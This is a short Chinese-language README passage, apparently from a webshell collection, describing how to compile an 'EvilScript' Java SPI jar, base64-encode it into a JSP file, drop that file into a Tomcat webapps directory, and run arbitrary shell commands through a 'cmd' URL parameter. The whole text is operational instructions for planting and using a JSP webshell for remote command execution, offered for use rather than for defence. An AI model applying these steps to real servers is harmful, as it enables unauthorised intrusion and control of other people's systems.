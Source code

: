 ### SPI机制的ScriptEngineManager自动加载实例化JSP Webshell

编译SPI jar：
```
javac EvilScript.java

jar -cvf evil.jar META-INF EvilScript.class

cat evil.jar|base64
```

使用：
```
ps:若要修改jar逻辑，修改后按照上面编译的方式得到base64 jar数据替换jsp文件中的base64数据

1.把jsp文件放到能被解析的服务器目录，例：tomcat的webapps/ROOT

2.在浏览器访问10.jsp，并使用参数cmd传入需要远程执行的命令，例：http://127.0.0.1:8080/10.jsp?cmd=whoami

3.服务器将会执行相应的shell命令，最后回显
```